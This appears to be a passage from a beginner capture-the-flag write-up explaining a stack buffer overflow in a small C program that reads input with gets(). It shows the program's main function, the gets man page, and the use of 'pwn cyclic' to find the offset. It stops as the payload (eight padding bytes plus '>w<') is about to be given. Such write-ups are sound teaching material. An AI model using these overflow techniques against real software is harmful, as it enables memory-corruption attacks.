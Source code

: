 ```c:example1.c
 }
}

int main(){
 setbuf(stdout, NULL);
 puts("hi! change the string to >w< and you'll get your flag!");
 vuln();
 return 0;
}
```

If you look closely it has gets function, it didn't specify the buffer size so we can overflow it.  
you can check the manual page of gets function with

```bash
man gets
```

The manual page says:

```bash
gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
which it replaces with a null byte ('\0').  No check for buffer overrun is performed
```

if we run the binary with `./example1` we will get

```bash
hi! change the string to >w< and you'll get your flag!
your input:
```

you can try to brute force it by using `pwn cyclic` or `pattern create` in gef. for example:

```bash
pwn cyclic 16
aaaabaaacaaadaaa
```

it will create cyclic pattern that can determine spesific offset. if we input it to the system we will get

```md
hi! change the string to >w< and you'll get your flag!
your input: aaaabaaacaaadaaa
string is: caaadaaa
not yet :(
keep trying!
```

if we examine carefully, we have overwritten the **`string[8]`** with our input. Because the size of **`input`** variable is 8 bytes, if we supply the gets with more than 8 character it will overflow. In this case it will overflowing **`string[8]`**.

so the input has to be 8\***`randomcharacter`** + >w<. Lets just A for the padding. so the payload will be
